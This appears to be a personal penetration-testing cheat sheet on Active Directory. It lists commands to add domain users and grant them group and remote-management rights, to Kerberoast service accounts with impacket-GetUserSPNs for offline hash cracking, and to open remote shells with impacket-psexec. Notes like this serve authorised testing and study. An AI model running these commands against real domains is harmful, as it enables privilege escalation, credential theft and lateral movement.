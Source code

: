 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

# Active Directory
Here there is different commands to interact with a domain
## Add User
````powershell
net user <username> <password> /add /domain
````

## Add to domain group
````powershell
net group <Group_Name> <username> /add
````

## Add to local group
````powershell
net localgroup <Group_Name> <username> /add
````
## Add to Remote Management group
Remote Management Users group is to allow users to remotely manage computers with Server Manager and RSAT - PSremoting or WinRM
````powershell
net localgroup "Remote Management Users" <username> /add
````
## GetUserSPNs
Impacket’s GetUserSPNs.py again simplifies the process to find SPNs, and is also able to request the TGS and
extract the hash for offline cracking.
````bash
impacket-GetUserSPNs <domain>/<username> -dc-ip <DC-IP>
````
### Requesting TGS ticket
Requesting a Ticket Granting Service ticket, which is can be cracked offline because the TGS_REP is encrypted using NTLM password hash of the account in whose context the service instance is running.
````bash
impacket-GetUserSPNs <domain>/<username> -dc-ip <DC-IP> -request
````
## PSexec
````bash
impacket-psexec <domain>/<username>:<password>@<IP-ADDRESS>
````


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
